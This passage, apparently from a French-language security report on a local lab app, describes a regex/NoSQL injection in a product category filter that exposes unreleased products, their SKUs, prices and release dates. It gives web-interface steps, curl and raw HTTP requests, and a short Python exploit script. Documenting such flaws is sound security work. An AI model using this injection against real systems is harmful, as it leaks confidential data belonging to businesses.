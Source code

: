 ```json
    "name": "Sustainable Fashion Collection",
    "sku": "SF-2025-004",
    "category": "Clothing",
    "price": 89.99,
    "description": "Eco-friendly fashion line made from recycled materials",
    "status": "unreleased",
    "release_date": "2025-09-01"
  }
]
```

## **4. Analyse de l'Impact**

### **4.1 Données Exposées**
- **Noms des produits non publiés**
- **SKUs sensibles** (GC-2025-001, QS-2025-002, etc.)
- **Prix et descriptions détaillées**
- **Dates de sortie prévues**

### **4.2 Risques Business**
- **Concurrence déloyale** : Les concurrents peuvent découvrir les futurs produits
- **Perte d'avantage concurrentiel** : Les stratégies de lancement sont compromises
- **Violation de confidentialité** : Informations propriétaires exposées

## **5. Méthodes d'Exploitation**

### **5.1 Via Interface Web**
1. Aller sur `/products`
2. Utiliser le champ "Custom Category Filter"
3. Entrer `.*` et cliquer sur "Filter"

### **5.2 Via API Directe**
```bash
# Avec curl
curl "http://localhost:3206/api/products?category=.*"

# Avec Burp Suite
GET /api/products?category=.* HTTP/1.1
Host: localhost:3206
```

### **5.3 Script d'Exploitation Automatisé**
```python
import requests
import urllib.parse

def exploit_nosql_injection():
    base_url = "http://localhost:3206/api/products"
    payload = ".*"
    encoded_payload = urllib.parse.quote(payload)
    
    response = requests.get(f"{base_url}?category={encoded_payload}")
    products = response.json()
    
    unreleased_products = [p for p in products if p.get('status') == 'unreleased']
    
    print("=== PRODUITS NON PUBLIÉS EXPOSÉS ===")
    for product in unreleased_products:
        print(f"Nom: {product['name']}")
        print(f"SKU: {product['sku']}")
        print(f"Prix: ${product['price']}")
```
